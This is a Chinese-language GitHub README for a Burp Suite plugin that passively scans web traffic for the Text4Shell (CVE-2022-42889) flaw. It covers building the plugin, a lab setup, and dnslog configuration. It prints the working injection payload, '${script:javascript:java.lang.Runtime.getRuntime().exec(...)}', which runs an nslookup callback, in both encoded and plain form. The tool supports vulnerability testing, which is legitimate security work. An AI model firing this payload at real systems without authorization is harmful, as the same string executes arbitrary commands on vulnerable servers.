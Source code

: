 # BurpText4ShellScan

---

使用java编写的Text4shell burp被动扫描插件

# 简介

---

java maven项目，可以使用`mvn package`进行编译

# 更新

---

```
1.0 - 首次上传，对所有经过burp的包进行被动扫描，扫描对象包括了json、xml、fileupload
1.1 - 修复了body为空时导致的检测错误，修复了对URL参数不检测的错误
```

# payload

---

```
- "%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup+dns-url%27%29%7D"
- "${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup dns-url')}"
```

可以在`resources/config.yml`修改

# 使用

---

### 0x01 搭建环境

使用github中的[https://github.com/karthikuj/cve-2022-42889-text4shell-docker](https://github.com/karthikuj/cve-2022-42889-text4shell-docker)搭建环境

![image-20221217013031381](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013031381.png)



### 0x02 插件

代理访问`http://yourip:80/text4shell/attack?search=aaa`，开始扫描

在logger中可看见插件发送的包

![image-20221217013353536](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013353536.png)

仅对是否可以dnslog进行扫描，若dnslog接受到请求，则爆出漏洞

![image-20221217013651624](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013651624.png)

![image-20221217013717306](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013717306.png)

### 0x03 配置

在`resources/config.yml`中的`dnsLogModule`修改dnslog配置

![image-20221217014026078](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217014026078.png)



# 参考

---

[https://github.com/pmiaowu/BurpFastJsonScan](https://github.com/pmiaowu/BurpFastJsonScan)

[https://github.com/f0ng/log4j2burpscanner](https://github.com/f0ng/log4j2burpscanner)

# 免责声明

---

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
